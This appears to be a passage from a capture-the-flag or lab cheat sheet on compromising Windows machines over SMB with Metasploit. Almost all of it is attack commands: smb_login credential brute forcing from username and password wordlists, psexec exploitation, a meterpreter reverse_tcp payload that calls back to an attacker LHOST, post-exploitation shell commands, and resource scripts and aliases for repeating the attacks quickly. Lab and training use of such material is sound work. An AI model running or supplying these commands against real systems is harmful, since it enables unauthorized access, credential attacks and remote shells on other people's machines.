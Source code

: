 #### **Metasploit Operations:**
```bash
msfconsole -q                                 # Start Metasploit quietly
use auxiliary/scanner/smb/smb_login           # Load credential scanner
set RHOSTS target_ip                          # Set target
set USER_FILE /path/to/users.txt             # Set username wordlist
set PASS_FILE /path/to/passwords.txt         # Set password wordlist
exploit                                       # Execute module
```

#### **System Exploitation:**
```bash
use exploit/windows/smb/psexec               # Load psexec exploit
set RHOSTS target_ip                         # Set target
set SMBUser username                         # Set username
set SMBPass password                         # Set password
set LHOST attacker_ip                        # Set local IP
exploit                                      # Execute exploit
```

#### **Post-Exploitation:**
```bash
shell                                        # Drop to system shell
whoami                                       # Check user context
systeminfo                                  # Get system information
dir C:\                                      # List root directory
type flag.txt                               # Read flag file
```

### **💡 Efficiency Tips:**

#### **Workflow Optimization:**
```bash
# Use database for target management
db_nmap -p445 192.168.1.0/24
hosts
services

# Batch credential testing
set RHOSTS file:/tmp/targets.txt
set THREADS 10
set VERBOSE false

# Quick exploitation setup
set SMBUser Administrator
set SMBPass password123
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
```

#### **Time-Saving Techniques:**
```bash
# Resource scripts for repeated operations
echo "use auxiliary/scanner/smb/smb_login" > smb_attack.rc
echo "set RHOSTS 192.168.1.100" >> smb_attack.rc
echo "set USER_FILE /usr/share/wordlists/users.txt" >> smb_attack.rc
echo "exploit" >> smb_attack.rc
msfconsole -r smb_attack.rc

# Alias common commands
alias smb_scan='nmap -p445 --script smb-protocols'
alias msf_quiet='msfconsole -q'
```

---